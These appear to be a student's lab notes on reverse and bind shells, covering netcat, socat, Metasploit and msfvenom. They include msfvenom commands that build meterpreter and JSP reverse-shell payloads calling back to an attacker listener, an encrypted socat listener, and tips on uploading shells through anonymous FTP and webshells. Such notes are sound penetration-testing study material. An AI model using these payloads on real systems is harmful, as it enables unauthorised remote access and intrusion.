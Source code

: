 Shells

**Reverse shell and Bind shell**



![reverse shell.png](../_resources/fa427da2aae54bbda729a76c7eee9b3f.png)


![bind shell.png](../_resources/733eb396c4b74ba6923e014a47b4af15.png)




**Staged and Non Staged Payload**
### Non Staged:
1. Sends exploit all at once
2. Larger in size wont work always
3. Ex: windows/meterpreter_reverse_tcp,netcat,socat.
**(_) is used to show its stageless**
payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
### Staged:
1. Sends payload in stages.
2. Can be less stable.
3. Ex: windows/meterpreter/reverse_tcp
> in two parts first is stager and then it downloads the payload from listerner.

Stager - executed directly on the server itself. It connects back to a waiting listener, but doesnt actually contain any reverse shell code by itsself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into the parts-- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit `multi/handler`, which will be covered in the next task



**What is a Shell?**
>CLI environment is shell
>powershell, cmd.exe for windows
>bash, sh, zsh,etc for linux

Variety of tools in common
1. Netcat
>Swiss army knife.
>Manually performed all kinds of network interactions, like banner grabbing,reverse shell,bind shells.
2. Socat
>Socat is netcat on steroids.
>Syntax is difficult.
>Netcat is by default but Socat is raely installed.
>socat also provides you to get encrypted reverse shell
4. Metasploit -- multi/handler
>`auxiliary/multi/handler` module of metasploit used as netcat or socat to recieve reverse shells.
>Only way to to interact with meterpreter shells.
>provides way to handle staged payloads.
6. Msfvenom
> Used to generate payloads and part of metasploit 
> Can generate payloads other than reverse shell and bind shell
8. Pwncat (JohnHammod)
> Advance stable netcat option which is bascially red team tool
> gives you addition features of priv escallation,download,upload,etc
10. Pwncat (cytopia)
> similar to John's tool but more advance

# Resources

[High on coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
[pentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


# Types of Shells

There are 2 types of shells

**1. Reverse Shell**
![reverse shell.png](../_resources/fa427da2aae54bbda729a76c7eee9b3f.png)
**2. Bind Shell**
![bind shell.png](../_resources/733eb396c4b74ba6923e014a47b4af15.png)

## Interactivity
1. Interactive
>ssh



![i.png](../_resources/2d03ef8dec844f39957717ce187ee0c4.png)

```bash
# When deffe-helmain key exchange is supprted only
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

3. Non-Interactive
>netcat



![ni.png](../_resources/ac9e2b1c4cec43dd90dfa194bc16fae0.png)



# Netcat shell Stabilisation
**1. Method one: Python**
Step 1: `python -c 'import pty;pty.spawn("/bin/bash")'`
uses python spawn feature bash shell.
Step 2: `export TERM=xterm`
this gives us the term commands like: `clear`
Step 3: Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 


![nc.png](../_resources/1aa3d3644b194960a3134ed10fbde34c.png)


**2. Method two**
`rlwrap`
`rlwrap nc -nvlp 1337`
**3. Method three**
`socat`
**4. Method four**
`source env/bin/activate`
`pwncat --listen -p 4444`
**5. Method five**
`bash -i`

# Socat encrypted shell



![enc.png](../_resources/63b3799c25a14748ade6495d7f1483ca.png)


syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```



# Common shell payloads
`/usr/share/windows-resources/binaries`
here you will get all the useful binaries like: nc.exe,plink.exe,etc
# Msfvenom 
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

*Payload Naming Conventions*
`<OS>/<arch>/<payload>`
*Example*
`linux/x86/shell_reverse_tcp`

*List all the payloads*
`msfvenom --list payloads| grep "linux/x86/meterpreter"`


# Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell. (to-do)



![netcat.png](../_resources/ef37878c124e4b739b508f8f28aa76f5.png)


**You have to do these questions**


Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

>as _ once are stageless 

`linux/x64/meterpreter/reverse_tcp`                   Inject the mettle server payload (staged). Connect back to the attacker
    `linux/x64/meterpreter_reverse_tcp`                   Run the Meterpreter / Mettle server payload (stageless)
	
`windows/x64/powershell_reverse_tcp`                  Listen for a connection and spawn an interactive powershell session
`windows/x64/meterpreter/reverse_tcp`                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker (Windows x64)
`windows/x64/meterpreter_reverse_tcp`                 Connect back to attacker and spawn a Meterpreter shell

Command:
`msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o shell-stageless.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf  -o shell-stageless LHOST=10.8.95.162 LPORT=1337`

****Last answer:** no meterpreter doesnt work with netcat**


# FTP to Shell
so in this one if you have anonymous access to the ftp server then upload a shell and then go to `ftp://ip/shell.php` the open your nc listener and BOOM!!! 

[Shell Upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)


## Tips and Tricks
1. Java reverse shell 
`msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`

**?cmd=id**
1. echo the shell 
2. Download the shell
3. upload it.